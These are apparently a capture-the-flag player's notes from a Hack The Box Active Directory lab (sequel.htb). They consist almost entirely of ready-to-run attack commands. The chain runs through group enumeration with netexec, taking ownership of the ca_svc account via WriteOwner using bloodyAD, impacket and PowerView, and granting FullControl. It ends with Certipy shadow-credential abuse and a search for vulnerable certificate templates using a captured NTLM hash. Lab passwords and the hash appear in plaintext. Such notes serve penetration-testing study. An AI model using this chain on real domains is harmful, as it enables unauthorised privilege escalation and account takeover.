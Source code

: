 ## List AD groups
`nxc ldap dc01.sequel.htb -u users.txt -p passwords.txt --groups`
`nxc ldap dc01.sequel.htb -u users.txt -p passwords.txt -M group-mem -o group="Remote Managment Users"`
## WriteOwner privilege
- bloodyAD
`bloodyAD --host '10.10.XX.XX' -d 'escapetwo.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'`
- impacket
`impacket-owneredit -action write -new-owner 'ryan' -target 'ca_svc' 'dc01.sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'`
- PowerView
`Set-DomainObjectOwner -TargetIdentity ca_svc -PrincipalIdentity ryan`
## Grant FullControl rights
- PowerView
`Add-DomainObjectAcl -TargetIdentity ca_svc -PrincipalIdentity ryan -Rights fullcontrol`
- impacket
`impacket-dacledit -action write -rights FullControl -principal ryan -target ca_svc dc01.sequel.htb/ryan:WqSZAF6CysDQbGb3`
## Certipy-AD
`certipy-ad shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51'`
`certipy-ad find -u ca_svc@sequel.htb -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -stdout -vulnerable -dc-ip 10.10.11.51`